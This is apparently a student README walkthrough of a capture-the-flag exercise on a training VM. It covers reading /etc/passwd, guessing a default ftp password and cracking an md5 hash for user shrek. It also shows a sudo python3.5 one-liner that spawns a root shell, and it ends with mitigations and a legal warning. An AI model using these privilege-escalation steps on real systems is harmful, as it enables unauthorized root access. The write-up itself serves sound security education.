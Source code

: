 # [local](https://github.com/01-edu/public/tree/master/subjects/cybersecurity/local)

## About

Local is a 'Capture the flag' project using the provided VM 01-Local1.ova. The root access and flag have to be aquired using privilege escalation.

## Privilege escalation

Privilege escalation occurs when someone gains higher access or permissions in a system than they're supposed to have. This can happen in two main ways: either a regular user manages to gain admin-level privileges, or someone with the same level of access as another user finds a way to take control of their account or permissions. It's a major security issue because it allows unauthorized access to sensitive information or control over a system, leading to potential misuse or damage.

## Video

I have uploaded a video to YouTube showing the steps needed to get root access and capture the flag. https://www.youtube.com/watch?v=Tt5gGFiVrc4&ab

## Walkthrough

#### Getting first user credentials
Since in the insructions no credentials were given, I started with looking around in GRUB and using `cat /etc/passwd` I was abled to see that there were two users: `shrek` and `ftp`. By trial and error I was not able to find tha password for `shrek` but the password for `ftp` was `ftp`.

#### IP Address
Using command `ip addr` I found out that there was something available at `192.168.1.141` so I Accesed it with browser and it displayed: <center>
        <h1 style="color:white;">0 1</h1>
		<h1 style="color:green;">(! !! ! !!)! l37'5 pl4y 4 64m3 ! (!! ! !!! )</h1>
		<h2 style="color:green;">HackMe Please!.</h2>
		<p style="color:grey;">Local#1</p>
	</center>

At that time I did not look deeper into THe IP address and started to look around in the folders instead.

#### Password for shrek
In `/home` was `important.txt` which contained:
```
  /$$$$$$    /$$     
 /$$$_  $$ /$$$$    
| $$$$\ $$|_  $$     
| $$ $$ $$  | $$    
| $$\ $$$$  | $$    
| $$ \ $$$  | $$    
|  $$$$$$/ /$$$$$$  
 \______/ |______/                                                                           
                                                                           
                                                                           
 /$$                                     /$$   /$$ /$$     /$$             
| $$                                    | $$  / $$/ $$   /$$$$             
| $$        /$$$$$$   /$$$$$$$  /$$$$$$ | $$ /$$$$$$$$$$|_  $$             
| $$       /$$__  $$ /$$_____/ |____  $$| $$|   $$  $$_/  | $$             
| $$      | $$  \ $$| $$        /$$$$$$$| $$ /$$$$$$$$$$  | $$             
| $$      | $$  | $$| $$       /$$__  $$| $$|_  $$  $$_/  | $$             
| $$$$$$$$|  $$$$$$/|  $$$$$$$|  $$$$$$$| $$  | $$| $$   /$$$$$$           
|________/ \______/  \_______/ \_______/|__/  |__/|__/  |______/           
                                                                           
                                                                           
run the script to see the data

/.runme.sh
```
and by looking in the shell script with `cat /.runme.sh` 
```
#!/bin/bash
echo 'the secret key'
sleep 2
echo 'is'
sleep 2
echo 'trolled'
sleep 2
echo 'hacking computer in 3 seconds...'
sleep 1
echo 'hacking computer in 2 seconds...'
sleep 1
echo 'hacking computer in 1 seconds...'
echo "hahaahahah it's a joke, Don't be stupid, read scripts before running it"
exit 01 ### eeeeeemmmmmmmmmmmmm
sleep 1
echo '⡴⠑⡄⠀⠀⠀⠀⠀⠀⠀ ⣀⣀⣤⣤⣤⣀⡀
⠸⡇⠀⠿⡀⠀⠀⠀⣀⡴⢿⣿⣿⣿⣿⣿⣿⣿⣷⣦⡀
⠀⠀⠀⠀⠑⢄⣠⠾⠁⣀⣄⡈⠙⣿⣿⣿⣿⣿⣿⣿⣿⣆
⠀⠀⠀⠀⢀⡀⠁⠀⠀⠈⠙⠛⠂⠈⣿⣿⣿⣿⣿⠿⡿⢿⣆
⠀⠀⠀⢀⡾⣁⣀⠀⠴⠂⠙⣗⡀⠀⢻⣿⣿⠭⢤⣴⣦⣤⣹⠀⠀⠀⢀⢴⣶⣆
⠀⠀⢀⣾⣿⣿⣿⣷⣮⣽⣾⣿⣥⣴⣿⣿⡿⢂⠔⢚⡿⢿⣿⣦⣴⣾⠸⣼⡿
⠀⢀⡞⠁⠙⠻⠿⠟⠉⠀⠛⢹⣿⣿⣿⣿⣿⣌⢤⣼⣿⣾⣿⡟⠉
⠀⣾⣷⣶⠇⠀⠀⣤⣄⣀⡀⠈⠻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇
⠀⠉⠈⠉⠀⠀⢦⡈⢻⣿⣿⣿⣶⣶⣶⣶⣤⣽⡹⣿⣿⣿⣿⡇
⠀⠀⠀⠀⠀⠀⠀⠉⠲⣽⡻⢿⣿⣿⣿⣿⣿⣿⣷⣜⣿⣿⣿⡇
⠀⠀ ⠀⠀⠀⠀⠀⢸⣿⣿⣷⣶⣮⣭⣽⣿⣿⣿⣿⣿⣿⣿⠇
⠀⠀⠀⠀⠀⠀⣀⣀⣈⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠇
⠀⠀⠀⠀⠀⠀⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿
    shrek:061fe5e7b95d5f98208d7bc89ed2d569'
``` 
I was able to find the md5 hash of the password: `061fe5e7b95d5f98208d7bc89ed2d569`
Using a website for decrypting hashes i got the password: `youaresmart`

#### Getting root access
`user.txt` at `/home/shrek` was not much of help:
```
  /$$$$$$    /$$     
 /$$$_  $$ /$$$$    
| $$$$\ $$|_  $$     
| $$ $$ $$  | $$    
| $$\ $$$$  | $$    
| $$ \ $$$  | $$    
|  $$$$$$/ /$$$$$$  
 \______/ |______/                                                                           
                                                                           
                                                                           
 /$$                                     /$$   /$$ /$$     /$$             
| $$                                    | $$  / $$/ $$   /$$$$             
| $$        /$$$$$$   /$$$$$$$  /$$$$$$ | $$ /$$$$$$$$$$|_  $$             
| $$       /$$__  $$ /$$_____/ |____  $$| $$|   $$  $$_/  | $$             
| $$      | $$  \ $$| $$        /$$$$$$$| $$ /$$$$$$$$$$  | $$             
| $$      | $$  | $$| $$       /$$__  $$| $$|_  $$  $$_/  | $$             
| $$$$$$$$|  $$$$$$/|  $$$$$$$|  $$$$$$$| $$  | $$| $$   /$$$$$$           
|________/ \______/  \_______/ \_______/|__/  |__/|__/  |______/           
                                                                           
                                                                           
I generated this ascii art with python3.5, is it cool?
```
So next i tried `sudo -l`:
```
Matching Defaults entries for shrek on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shrek may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3.5
```
This revealed that shrek has root access for python3.5 which meant I could gain root access for the system with a simple script:
``` 
sudo /usr/bin/python3.5 -c 'import os; os.system("/bin/bash")'
```
Then I was able to navigate to `/root` which contained `root.txt`:
```
  /$$$$$$    /$$     
 /$$$_  $$ /$$$$    
| $$$$\ $$|_  $$     
| $$ $$ $$  | $$    
| $$\ $$$$  | $$    
| $$ \ $$$  | $$    
|  $$$$$$/ /$$$$$$  
 \______/ |______/                                                                           
                                                                           
                                                                           
 /$$                                     /$$   /$$ /$$     /$$             
| $$                                    | $$  / $$/ $$   /$$$$             
| $$        /$$$$$$   /$$$$$$$  /$$$$$$ | $$ /$$$$$$$$$$|_  $$             
| $$       /$$__  $$ /$$_____/ |____  $$| $$|   $$  $$_/  | $$             
| $$      | $$  \ $$| $$        /$$$$$$$| $$ /$$$$$$$$$$  | $$             
| $$      | $$  | $$| $$       /$$__  $$| $$|_  $$  $$_/  | $$             
| $$$$$$$$|  $$$$$$/|  $$$$$$$|  $$$$$$$| $$  | $$| $$   /$$$$$$           
|________/ \______/  \_______/ \_______/|__/  |__/|__/  |______/           
                                                                           
                                                                           
                                                                                                                                                     
Congratulations, You have successfully completed the challenge!
Flag: 01Talent@nokOpA3eToFrU8r5sW1dipe2aky
```

## Vulnerabilities
GRUB was not password proteced so I was able to see the list of users, the task instructions prohibited to do any modifications in GRUB but it would be possible to just change the user password there. To secure the system from that exploit you sould set a password for GRUB

The password for user `ftp` was the same as the username so it took 2 tries for me to guess it. Always choose a difficult password for your accounts.

The password for user `shrek` was stored in a txt file that could be read by all users and even though it was a md5 hash, it was easily decrypted. To avoid that, don't store your passwords in a place where othere people might have access to it.

Since shrek had root access to python3.5 it could get root ccess to the whole system through python. Always consider all possible cases where programs could be used if you give users access to it.
## Audit

 [Audit Questions](https://github.com/01-edu/public/tree/master/subjects/cybersecurity/local/audit)


## Author
[MargusT](https://01.kood.tech/git/MargusT)

## Warning
⚠️ These methods and tools are for educational purposes only, so that you have a better understanding of how to protect against similar vulnerabilities. You must ensure that you do not attempt any exploit-type activity without the explicit permission of the owner of the machine, system or application. Failure to obtain permission risks breaking the law.